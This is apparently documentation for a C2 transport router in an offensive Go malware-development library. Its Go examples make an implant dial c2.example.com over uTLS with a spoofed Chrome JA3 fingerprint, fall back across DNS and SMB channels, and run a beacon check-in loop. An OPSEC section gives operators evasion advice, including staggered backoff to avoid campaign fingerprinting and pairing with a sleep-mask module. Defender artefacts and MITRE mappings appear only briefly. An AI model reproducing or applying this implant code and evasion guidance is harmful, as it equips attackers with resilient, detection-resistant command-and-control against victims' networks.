

# Multi-channel transport router

[← c2 index](README.md) · [docs/index](../../index.md)

## TL;DR

You have multiple C2 backends — HTTPS as primary, DNS as fallback,
SMB pipe as last-resort — and want the implant to dial them in
order, retry with exponential backoff, and surface a clean
`ErrChannelLost` to the caller when the active channel dies so the
beacon loop can reconnect. [`transport.Router`](#newrouter--build)
is the state machine that does all of this in ~200 LOC of pure-Go
composition.

| You want to… | Use | Notes |
|---|---|---|
| Order-preferred fallback across N transports | [`NewRouter`](#newrouter--build) | First entry is primary; later entries are fallbacks |
| Exponential backoff per channel | `RouterConfig.{InitialBackoff,MaxBackoff,MaxAttempts}` | Doubles up to MaxBackoff; MaxAttempts caps retries per channel |
| Operator-controlled abort | `RouterConfig.KillSwitch` | Returns true to refuse all further reconnects |
| Nest a sub-router as one tier | [`Router` itself implements `Transport`](#composability) | A "tier 2 fallback group" is one entry of the top-level slice |

## Primer

Modern C2 traffic doesn't live on a single channel any more.
Defenders block HTTPS to `cdn-cgi.cloudfront.net`, the operator
flips to DNS-over-TXT, that gets caught, the operator flips to
SMB-over-pipe to a foothold inside the network. Without a router,
each fallback is a hand-rolled `if err != nil { try other thing }`
chain inside the beacon loop. With it, fallback is a config
struct.

Three properties the router enforces:

  1. **Serial, not parallel.** At most one transport is active at
     any time. The router is a fallback engine, not a load
     balancer; multiplexing across simultaneous channels would
     leak fan-out signal into beacon telemetry.
  2. **Sticky after success.** Once a transport connects, the
     router stays on it until Read/Write fails. No periodic
     re-probing of the preferred channel.
  3. **Wrap-around progression.** When the last transport in the
     list fails, the next `Connect` starts again at the first.
     Combined with `MaxAttempts: 0` (infinite retries per
     channel), this is the implant's "wait out the outage"
     posture.

## How It Works



Read/Write delegate to `active` under the mutex; a returned error
clears `active` (via `markLost`) so the next call surfaces
`ErrChannelLost` until the caller `Connect`s again.

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/c2/transport`](https://pkg.go.dev/github.com/oioio-space/maldev/c2/transport)
is the authoritative reference for the full Transport surface.
This page focuses on `Router`.

## Examples

### Simple — ordered HTTPS / DNS fallback

```go
https := transport.NewUTLS("c2.example.com:443", 30*time.Second,
    transport.WithJA3Profile(transport.JA3Chrome))
// Stand-in for any second Transport implementation (DNS-over-TXT, SMB
// pipe, etc.). No DNS backend ships in this repo today — operators
// wire in their own conforming to the Transport interface.
var dns transport.Transport = /* mydnsbackend.New(...) */ nil

r, _ := transport.NewRouter([]transport.Transport{https, dns},
    transport.RouterConfig{
        InitialBackoff: 2 * time.Second,
        MaxBackoff:     30 * time.Second,
        MaxAttempts:    5,
    })
if err := r.Connect(ctx); err != nil {
    return err
}
// r implements Transport → use it like any other backend.
```

### Composed — operator kill switch

```go
killed := make(chan struct{})  // operator closes this from a TUI button
r, _ := transport.NewRouter(channels, transport.RouterConfig{
    KillSwitch: func() bool {
        select {
        case <-killed:
            return true
        default:
            return false
        }
    },
})
```

The kill switch is consulted before each Connect attempt AND at
each backoff sleep. Once it returns true, the Router refuses to
reconnect and every subsequent operation returns
`transport.ErrKilled`. Build a fresh Router to come back online.

### Advanced — read/write loop with fallback on lost channel

```go
for {
    if err := r.Connect(ctx); err != nil {
        if errors.Is(err, transport.ErrKilled) || ctx.Err() != nil {
            return // operator pulled the plug
        }
        time.Sleep(30 * time.Second) // all channels exhausted, sleep longer
        continue
    }
    for {
        if _, err := r.Write(checkinFrame); err != nil {
            break // back to outer Connect — Router will try the next channel
        }
        n, err := r.Read(replyBuf)
        if err != nil {
            break
        }
        dispatch(replyBuf[:n])
    }
}
```

### Complex — nested router as a tier

A Router itself satisfies the `Transport` interface, so a tier-2
fallback group is just a Router inside the outer slice:

```go
tier2, _ := transport.NewRouter(
    []transport.Transport{dnsA, dnsB},
    transport.RouterConfig{InitialBackoff: 500 * time.Millisecond})

top, _ := transport.NewRouter(
    []transport.Transport{https, tier2}, // tier2 is one entry
    transport.RouterConfig{InitialBackoff: 2 * time.Second})

_ = top.Connect(ctx)
```

When `https` fails, `top` falls over to `tier2`; `tier2` then
internally retries `dnsA` then `dnsB`. Diagnostics:
`top.ActiveIndex()` returns `1` (tier2 is active);
`tier2.ActiveIndex()` returns whichever DNS backend tier2 picked.

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| Sudden traffic pattern shift (HTTPS → DNS) under defensive pressure | NTA / SIEM cross-correlation |
| Repeated TCP SYN to dead endpoints during backoff | Honeypot / canary services |
| Exponential timing pattern in connection attempts | Sysmon EID 3 frequency analysis |

**D3FEND counters:**

- [D3-NTA](https://d3fend.mitre.org/technique/d3f:NetworkTrafficAnalysis/) — flow correlation across channel switches.

**Hardening for the operator:**

- Stagger `InitialBackoff` across multiple beacons so the
  collective retry storm doesn't fingerprint a campaign.
- Use the `KillSwitch` to clamp an implant the moment a redirector
  goes dark — better silent for a day than reconnecting forever
  against a tarpit.
- Pair with [`evasion/sleepmask`](../evasion/sleep-mask.md)
  between Connect attempts so the implant memory image isn't
  obviously waiting.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1071](https://attack.mitre.org/techniques/T1071/) | Application Layer Protocol | composition primitive — the channels it wraps carry the real ATT&CK tags | D3-NTA |
| [T1008](https://attack.mitre.org/techniques/T1008/) | Fallback Channels | full — ordered preference, exponential backoff, wrap-around | D3-NTA |

## Composability

Three properties make Router compose cleanly:

  - **It is a Transport.** Anything taking `transport.Transport`
    takes a Router. Nesting is one slice entry deep.
  - **Pure-Go.** No Caller, no Opener, no Win32. Works on the
    same surface on Windows / Linux / macOS / arm64.
  - **Stateless config, stateful instance.** `RouterConfig` is
    safe to share across many Routers if their channel sets
    differ; each `*Router` owns its own active-channel pointer.

## Limitations

- **No live promotion.** Once we're on `transports[n]`, the
  Router doesn't periodically re-probe `transports[n-1]` to
  prefer it again. Operators wanting "snap back to primary
  when it recovers" can build a watcher that calls
  `r.Close() + new Router` on a timer.
- **Single in-flight Connect.** Calling Connect concurrently
  from two goroutines serialises on the mutex; the second waits
  for the first.
- **No traffic-shape obfuscation.** The Router just multiplexes;
  the channels it wraps own their own encryption / JA3 / Malleable
  profile.

## See also

- [`c2/transport.Malleable`](transport.md) — HTTP Malleable C2 profile transport (`JQueryCDN`, `GoogleAPI`).
- [`c2/transport.UTLS`](transport.md) — uTLS-fingerprint-spoofing TLS transport.
- [`c2/pivot/socks5`](socks5-pivot.md) — sibling primitive, beacon-side SOCKS5 listener.
- [Operator path](../../by-role/operator.md).
- [Detection eng path](../../by-role/detection-eng.md).
